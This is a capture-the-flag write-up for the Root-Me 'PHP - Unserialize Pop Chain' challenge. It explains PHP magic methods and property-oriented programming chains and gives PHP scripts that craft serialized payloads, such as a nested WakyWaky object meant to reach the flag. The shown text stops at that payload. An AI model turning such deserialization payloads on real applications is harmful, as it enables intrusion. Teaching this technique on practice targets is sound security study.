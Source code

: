 ```yaml
---
title: "Exploiting PHP Unserialize POP Chains | Rootme"
date: 2024-12-20
categories: [CHALLENGES, PHP - Unserialize Pop Chain]
tags: [CHALLENGES, CTF] 
---
```

## Introduction
[PHP - Unserialize Pop Chain](https://www.root-me.org/en/Challenges/Web-Server/PHP-Unserialize-Pop-Chain)  is a very nice web challenge designed to understand the concept of **magic method chaining** in the deserialization process.

As we know that [serialization](https://hazelcast.com/foundations/distributed-computing/serialization/) is the process of converting a data object or a combination of code into a series of bytes, preserving the object's state in an easily transmittable form. Deserialization is the reverse operation of serialization.

## What is the Magic Methods?
[Magic methods](https://www.php.net/manual/en/language.oop5.magic.php) are special methods which override PHP's default's action when certain actions are performed on an object. All methods names starting with __ are reserved by PHP.

One of the most popular magic methods is `__construct()` which is called when the object created. 

![IMG1](https://github.com/user-attachments/assets/5b91a228-bcdd-4b05-b29a-095970437807)

## What is POP chain? 
In normal scenario of exploiting insecure deserialization vulnerability, an attacker controls a serialized object that is passed into `unserialize()`. This will then allow her the opportunity to hijack the execution flow of the application, by controlling the values passed into magic methods.

The problem is: What if the declared magic methods does not contain any usefull code to perform my attack?
Now the exploitation of unsafe deserialization is useless, right?

Unfortunately, if the magic method themselves are not exploitable, an attacker could still control the execution flow using something called POP chains.

POP stands for `Property Oriented Programming` which means that the attacker can control all of the properties of the deserialized object. POP chains work by chaining code "gadgets" together to achieve the attacker’s ultimate goal. These "gadgets" are code snippets borrowed from the codebase that the attacker uses to further her goal.

## Challenge source code analysis

![IMG2](https://github.com/user-attachments/assets/64700220-7dbe-4aa9-a1fc-05d71edc0787)

The script defines two PHP classes which are `GetMessage` and `WakyWaky`.

1) GetMessage class:
  - Constructor `__construct`: Initializes the object with the `receive` parameter. If the value is "HelloBooooooy", the  script terminates with a message.
  - `__toString` Method: Returns the value of the receive property as a string.
  - Destructor `__destruct`: Validates the receive property. If it’s not "HelloBooooooy", the script terminates. Otherwise, if `$getflag` is true, it includes a `flag.php` file and reveals the flag.

2) WakyWaky class:
  - `__wakeup` Method: Executes when the object is unserialized, echoing the msg property.
  - `__toString` Method: Sets `$getflag` to true and creates a new GetMessage object, returning its receive value.

3) If a data parameter is provided via a POST request, it’s unserialized.

## Spotting the bug 
According to [php documentation](https://www.php.net/manual/en/language.oop5.magic.php) this magic methods works in php as follows:
- `__construct()`: Called when an object is created.
- `__destruct()`: Called when an object is deleted.
- `__wakeup()`: Called when an object is unserialized.
- `__toString()`: Called when an object is converted to a string.

Our goal is to read the flag and to make this set the value of the getflag to true. We cannot directly create a serialized object from the `GetMessage` class because the constructor takes a parameter and checks if its value is equal to "HelloBooooooy". If it is, the script will terminate immediately, and the `__destruct()` method will not be called. On the other hand, if we change the value from "HelloBooooooy" to "Hello", the constructor will save it in the `receive` property, and the `__destruct()` method will be called. However, when it checks the value, the script will terminate again using the `die()` function. Both approaches will fail to read the flag.

I generate this script to create a serialized data for testing: 
```php
<?php

class GetMessage {
    function __construct($receive) {
        if ($receive === "HelloBooooooy") {
            die("[FRIEND]: Ahahah you get fooled by my security my friend!<br>");
        } else {
            $this->receive = $receive;
        }
    }

    function __toString() {
        return $this->receive;
    }

    function __destruct() {
        global $getflag;
        if ($this->receive !== "HelloBooooooy") {
            die("[FRIEND]: Hm.. you don't seem to be the friend I was waiting for..<br>");
        } else {
            if ($getflag) {
                include("flag.php");
                echo "[FRIEND]: Oh ! Hi! Let me show you my secret: ".$FLAG."<br>";
            }
        }
    }
}
$obj = new GetMessage("Hello");
// O:10:"GetMessage":1:{s:7:"receive";s:5:"Hello";}
echo serialize($obj);
```
Trying: `O:10:"GetMessage":1:{s:7:"receive";s:5:"Hello";}`
![IMG3](https://github.com/user-attachments/assets/44fa326a-c5f9-487a-bfd4-a6a12b764318)

Now, our entry point is the WakyWaky class to set the value of getflag to true. If I create a serialized object from this class and send it to the web app, it will unserialize the object and automatically call the `__wakeup()` method, which echoes the msg property of the object.

What if we could now modify the `msg` property to control the execution flow of the code and call the `__toString()` method?

## Chaining of methods and Exploitation
We can create an object using the `WakyWaky` class, where the value of the `msg` property is an object of the same class. The only way to make the code call the `__toString()` method is to make the msg property of this object another object from the same class. This is because the `WakyWaky` class echoes the `msg`, and `__toString()` is called when the object is treated as a string.

Working of `__toString()`:

![IMG4](https://github.com/user-attachments/assets/cd4488d6-1a4e-49cd-8b22-cd5b37887e72)

Let's try to create the payload: 

```php
<?php 

class WakyWaky {
    public $msg;

    public function __construct($msg) {
        $this->msg = $msg;
    }
}

$Innerobj = new WakyWaky("Hello");  
$OuterObj = new WakyWaky($Innerobj);

// O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";s:5:"Hello";}}
echo serialize($OuterObj); 
```
![IMG5](https://github.com/user-attachments/assets/11ebffe1-3aa9-4feb-9a9e-06f0d0d894d8)

